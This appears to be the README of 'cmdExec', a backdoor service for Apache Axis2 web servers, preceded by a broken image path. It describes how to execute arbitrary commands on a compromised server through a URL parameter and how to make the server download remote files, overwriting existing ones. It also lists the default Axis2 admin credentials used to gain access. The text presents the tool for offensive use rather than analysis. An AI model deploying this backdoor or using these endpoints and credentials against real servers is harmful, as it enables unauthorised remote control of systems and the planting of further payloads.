 cmdExec
===========

Apache Axis2 Backdoor service


  Usage: 
   Execute program: http://PATHTOAXIS2/cmdExec/run?cmd=COMMAND
   Download file: http://PATHTOAXIS2/cmdExec/get?site=http(s)://site/file.ext
       Files will be downloaded as download.file and must be renamed.
       Existing files will be overwritten. Enjoy :)
  
       Default axis2 username=admin password=axis2